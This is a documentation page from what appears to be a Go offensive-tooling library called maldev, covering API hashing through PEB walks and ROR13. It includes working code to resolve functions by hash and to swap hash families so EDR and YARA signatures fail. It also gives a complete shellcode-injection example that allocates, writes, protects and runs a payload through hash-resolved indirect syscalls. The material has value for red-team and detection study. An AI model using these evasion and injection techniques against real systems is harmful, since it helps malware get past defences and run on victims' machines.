

---
---

# API Hashing (PEB Walk + ROR13)

[<- Back to Syscalls Overview](README.md)

**MITRE ATT&CK:** [T1106 - Native API](https://attack.mitre.org/techniques/T1106/)
**D3FEND:** [D3-FCR - Function Call Restriction](https://d3fend.mitre.org/technique/d3f:FunctionCallRestriction/)

---

> **New to maldev syscalls?** Read the [syscalls/README.md
> vocabulary callout](README.md#primer--vocabulary) first
> (syscall, NTAPI, SSN, userland hook, direct/indirect,
> API hashing, gate-family resolvers).

## What api-hashing is NOT

> [!IMPORTANT]
> `api-hashing` is **only** the symbol-resolution axis (concern #3
> in [README.md](README.md)). It answers "how do I find the right
> export without a plaintext string?".
>
> It does **not** decide:
>
> - **how the syscall fires** — that's the calling method
>   (`MethodWinAPI` / `MethodNativeAPI` / `MethodDirect` /
>   `MethodIndirect` / `MethodIndirectAsm`). See
>   [direct-indirect.md](direct-indirect.md).
> - **where the SSN comes from** — that's the SSN resolver
>   (`HellsGate` / `HalosGate` / `TartarusGate` / `Chain`). See
>   [ssn-resolvers.md](ssn-resolvers.md). `HashGate` is the
>   resolver that *uses* api-hashing to find the Nt* prologue.
>
> Tuning hashing alone does not give you a stealthier syscall —
> a hash-resolved `MethodWinAPI` call still goes through every
> kernel32/ntdll hook in the process. Pair api-hashing with the
> calling method and SSN resolver you want.

## Primer

When your program calls `VirtualAlloc`, the string `"VirtualAlloc"` appears in the binary. Any analyst running `strings` on your executable can see exactly which dangerous APIs you use.

**Instead of calling someone by name (which gets overheard), you use a coded number.** API hashing converts function names like `"NtAllocateVirtualMemory"` into numeric hashes like `0xD33BCABD`. Your binary only contains these numbers -- no readable strings. At runtime, the code walks the Process Environment Block (PEB) to find loaded DLLs and their exports, hashing each export name until it finds a match.

---

## How It Works



### PEB Walk Details

The PEB (Process Environment Block) contains a list of all loaded DLLs. On x64 Windows:

1. **TEB** (Thread Environment Block) is at `GS:0x30`
2. **PEB** is at `TEB+0x60`
3. **PEB_LDR_DATA** is at `PEB+0x18`
4. **InLoadOrderModuleList** starts at `LDR+0x10`

Each entry in the list is an `LDR_DATA_TABLE_ENTRY` containing:
- `+0x30`: DllBase (the module's base address)
- `+0x58`: BaseDllName as UNICODE_STRING (Length, MaxLength, Buffer)

### ROR13 Hashing

ROR13 (Rotate Right by 13 bits) is the de facto standard for shellcode API hashing:

```text
For each character c in the name:
    hash = (hash >> 13) | (hash << 19)   // rotate right 13 bits
    hash = hash + c                       // add character value
```

Two variants exist in maldev:
- **ROR13** (`hash.ROR13`): ASCII, no null terminator -- used for export names
- **ROR13Module** (`hash.ROR13Module`): UTF-16LE wide chars + null terminator -- used for PEB module names

### Beyond ROR13 — defeating signature engines

Many EDR signature engines key on the canonical ROR13 constants
(`0x6A4ABC5B` for `kernel32`, `0x4FC8BB5A` for `LoadLibraryA`, …).
If the engine sees those uint32s in a binary's `.rdata`, it
flags the file regardless of the runtime behaviour.

Pivoting to a different hash family makes the implant's
constants statically distinct. The `hash` package ships:

| Function | Output | Notes |
|---|---|---|
| [`hash.ROR13(name)`](https://pkg.go.dev/github.com/oioio-space/maldev/hash#ROR13) | `uint32` | Canonical shellcode hash; widest signature exposure. |
| [`hash.JenkinsOAAT(name)`](https://pkg.go.dev/github.com/oioio-space/maldev/hash#JenkinsOAAT) | `uint32` | Bob Jenkins one-at-a-time + avalanche tail; cheap, no division, slightly better avalanche than ROR13. |
| [`hash.FNV1a32(name)`](https://pkg.go.dev/github.com/oioio-space/maldev/hash#FNV1a32) | `uint32` | FNV-1a 32-bit; matches `hash/fnv` byte-for-byte. |
| [`hash.FNV1a64(name)`](https://pkg.go.dev/github.com/oioio-space/maldev/hash#FNV1a64) | `uint64` | FNV-1a 64-bit. |
| [`hash.DJB2(name)`](https://pkg.go.dev/github.com/oioio-space/maldev/hash#DJB2) | `uint32` | Bernstein `hash * 33 + c`; classic, weaker on short inputs. |
| [`hash.CRC32(name)`](https://pkg.go.dev/github.com/oioio-space/maldev/hash#CRC32) | `uint32` | IEEE polynomial; backed by `hash/crc32` table. |

Compose with [`win/syscall`](direct-indirect.md):

```go
caller := wsyscall.New(
    wsyscall.MethodIndirectAsm,
    wsyscall.NewHashGateWith(hash.JenkinsOAAT),
).WithHashFunc(hash.JenkinsOAAT)
```

Both ends MUST agree: `NewHashGateWith(fn)` for the resolver,
`WithHashFunc(fn)` for any `CallByHash` call. Pre-compute the
hash constants once at build time (or via a `go generate` step)
to keep the binary string-free.

#### `cmd/hashgen` — generate the constants

Use the in-tree CLI to emit `const Hash<Algo><Symbol> = 0x…`
declarations for any of the 7 supported algorithms (`ror13`,
`ror13module`, `fnv1a32`, `fnv1a64`, `jenkins`, `djb2`, `crc32`):

```bash
go run ./cmd/hashgen -algo jenkins -package winhashes \
    LoadLibraryA GetProcAddress NtAllocateVirtualMemory > winhashes/winhashes_gen.go
```

Or, for `go generate`-style integration, drop a stanza like the
following into a stub file and check the generated output into git:

```go
//go:generate go run ../../cmd/hashgen -algo jenkins -package winhashes -o winhashes_gen.go LoadLibraryA GetProcAddress
```

This keeps the runtime cost zero (no hashing on each process
start) and the binary string-free.

### PE Export Resolution

Once the module base is found, the code parses the PE export directory:

1. Read `e_lfanew` at offset `0x3C` to find the PE header
2. Navigate to `DataDirectory[0]` (export directory) at PE header `+24+112`
3. Walk `AddressOfNames`, hash each name, compare with target hash
4. On match, read the ordinal from `AddressOfNameOrdinals` and the RVA from `AddressOfFunctions`

---

## Usage

### ResolveByHash: Find a Function Address

```go
import "github.com/oioio-space/maldev/win/api"

// Resolve LoadLibraryA in KERNEL32.DLL -- no strings in binary
addr, err := api.ResolveByHash(api.HashKernel32, api.HashLoadLibraryA)
if err != nil {
    log.Fatal(err)
}
// addr is now the function pointer for LoadLibraryA
```

### CallByHash: Execute a Syscall by Hash

```go
import (
    "github.com/oioio-space/maldev/win/api"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewHashGate())
defer caller.Close()

// NtAllocateVirtualMemory via hash -- zero plaintext function names
ret, err := caller.CallByHash(api.HashNtAllocateVirtualMemory,
    uintptr(0xFFFFFFFFFFFFFFFF),
    uintptr(unsafe.Pointer(&baseAddr)),
    0,
    uintptr(unsafe.Pointer(&regionSize)),
    windows.MEM_COMMIT|windows.MEM_RESERVE,
    windows.PAGE_READWRITE,
)
```

### HashGateResolver: SSN Resolution by Hash

```go
import wsyscall "github.com/oioio-space/maldev/win/syscall"

// HashGate resolves SSNs via PEB walk -- no LazyProc.Find() calls
resolver := wsyscall.NewHashGate()
ssn, err := resolver.Resolve("NtCreateThreadEx")
// ssn is the syscall service number (e.g., 0xC1)
```

### Pre-Computed Hash Constants

```go
// Module hashes (ROR13Module of BaseDllName in PEB)
api.HashKernel32  // 0x50BB715E  "KERNEL32.DLL"
api.HashNtdll     // 0x411677B7  "ntdll.dll"
api.HashAdvapi32  // 0x9CB9105F  "ADVAPI32.dll"
api.HashUser32    // 0x51319D6F  "USER32.dll"
api.HashShell32   // 0x18D72CAC  "SHELL32.dll"

// Function hashes (ROR13 of ASCII export name)
api.HashLoadLibraryA            // 0xEC0E4E8E
api.HashGetProcAddress          // 0x7C0DFCAA
api.HashVirtualAlloc            // 0x91AFCA54
api.HashNtAllocateVirtualMemory // 0xD33BCABD
api.HashNtProtectVirtualMemory  // 0x8C394D89
api.HashNtCreateThreadEx        // 0x4D1DEB74
api.HashNtWriteVirtualMemory    // 0xC5108CC2
```

---

## Combined Example: defeat ROR13 fingerprinting

A ROR13-only signature engine sees the canonical
`api.HashLoadLibraryA = 0xEC0E4E8E` constant in the binary's
`.rdata` and flags the file. Switching the entire stack to
JenkinsOAAT changes that constant to a fresh value the engine
never trained on:

```go
package main

import (
    "fmt"

    "github.com/oioio-space/maldev/hash"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // Both ends MUST agree on the hash family.
    caller := wsyscall.New(
        wsyscall.MethodIndirectAsm,
        wsyscall.NewHashGateWith(hash.JenkinsOAAT),
    ).WithHashFunc(hash.JenkinsOAAT)
    defer caller.Close()

    // Pre-compute the funcHash at build time. JenkinsOAAT yields a
    // different uint32 than ROR13 for the same name, so existing
    // signature databases targeting the ROR13 constant don't match.
    ntClose := hash.JenkinsOAAT("NtClose") // = 0x???????? (your build's value)

    if _, err := caller.CallByHash(ntClose, 0); err != nil {
        fmt.Println("syscall:", err)
    }
}
```

`hash.FNV1a32`, `hash.DJB2`, `hash.CRC32`, and `hash.FNV1a64`
swap in identically — pick the family least represented in the
target signature corpus.

## Combined Example: String-Free Injection

```go
package main

import (
    "unsafe"

    "golang.org/x/sys/windows"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/win/api"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // All function resolution via hashes -- no "NtAllocateVirtualMemory" string in binary
    caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewHashGate())
    defer caller.Close()

    // Decrypt shellcode (key would be derived at runtime in production)
    key, _ := crypto.NewAESKey()
    shellcode := []byte{/* ... */}
    encrypted, _ := crypto.EncryptAESGCM(key, shellcode)
    decrypted, _ := crypto.DecryptAESGCM(key, encrypted)

    // Allocate memory via hash
    var baseAddr uintptr
    regionSize := uintptr(len(decrypted))
    caller.CallByHash(api.HashNtAllocateVirtualMemory,
        uintptr(0xFFFFFFFFFFFFFFFF),
        uintptr(unsafe.Pointer(&baseAddr)),
        0,
        uintptr(unsafe.Pointer(&regionSize)),
        windows.MEM_COMMIT|windows.MEM_RESERVE,
        windows.PAGE_READWRITE,
    )

    // Write shellcode via hash
    var bytesWritten uintptr
    caller.CallByHash(api.HashNtWriteVirtualMemory,
        uintptr(0xFFFFFFFFFFFFFFFF),
        baseAddr,
        uintptr(unsafe.Pointer(&decrypted[0])),
        uintptr(len(decrypted)),
        uintptr(unsafe.Pointer(&bytesWritten)),
    )

    // Change protection via hash
    var oldProtect uintptr
    caller.CallByHash(api.HashNtProtectVirtualMemory,
        uintptr(0xFFFFFFFFFFFFFFFF),
        uintptr(unsafe.Pointer(&baseAddr)),
        uintptr(unsafe.Pointer(&regionSize)),
        windows.PAGE_EXECUTE_READ,
        uintptr(unsafe.Pointer(&oldProtect)),
    )

    // Execute via hash
    var threadHandle uintptr
    caller.CallByHash(api.HashNtCreateThreadEx,
        uintptr(unsafe.Pointer(&threadHandle)),
        0x1FFFFF, 0, uintptr(0xFFFFFFFFFFFFFFFF),
        baseAddr, 0, 0, 0, 0, 0, 0,
    )

    windows.WaitForSingleObject(windows.Handle(threadHandle), windows.INFINITE)
}
```

---

## Advantages & Limitations

### Advantages

- **No plaintext strings**: `strings` and YARA rules targeting API names find nothing
- **No IAT entries**: Functions resolved at runtime are invisible in the Import Address Table
- **Composable**: HashGate works as an SSNResolver in the Chain pipeline
- **Lazy init**: ntdll base address resolved once via `sync.Once`, cached for all subsequent calls

### Limitations

- **ROR13 collisions**: Theoretically possible (32-bit hash space), though none exist for common NT function names
- **PEB walk detectable**: ETW providers and some EDRs monitor PEB traversal patterns
- **Hash constants are signatures**: Known ROR13 values (e.g., `0xD33BCABD` for NtAllocateVirtualMemory) become YARA targets themselves — switch families (`hash.JenkinsOAAT` / `hash.FNV1a32` / `hash.DJB2` / `hash.CRC32`) to render those signatures useless against your binary. `NewHashGateWith(fn)` and `Caller.WithHashFunc(fn)` recompute the `ntdll.dll` module-name hash via `fn` at construction time, so the ROR13Module fingerprint constant `0x411677B7` no longer appears in binaries built with a non-ROR13 family — the swap is end-to-end, not function-only
- **No pre-computed Hash\* constants for non-ROR13 families**: `win/api.HashKernel32` / `HashLoadLibraryA` / etc. are ROR13-only. When pairing `wsyscall.NewHashGateWith(hash.JenkinsOAAT)` with `Caller.CallByHash`, callers compute the funcHash at build time themselves. A `cmd/hashgen` `go generate` step that emits per-family constant tables is queued under backlog row P2.24.
- **Requires loaded modules**: Can only resolve functions from DLLs already in the PEB -- cannot load new DLLs by hash alone

---

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/hash`](https://pkg.go.dev/github.com/oioio-space/maldev/hash) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## See also

- [Syscalls area README](README.md)
- [`syscalls/ssn-resolvers.md`](ssn-resolvers.md) — the resolver chain that uses these hashes
- [`syscalls/direct-indirect.md`](direct-indirect.md) — the calling-method side of the same Caller seam
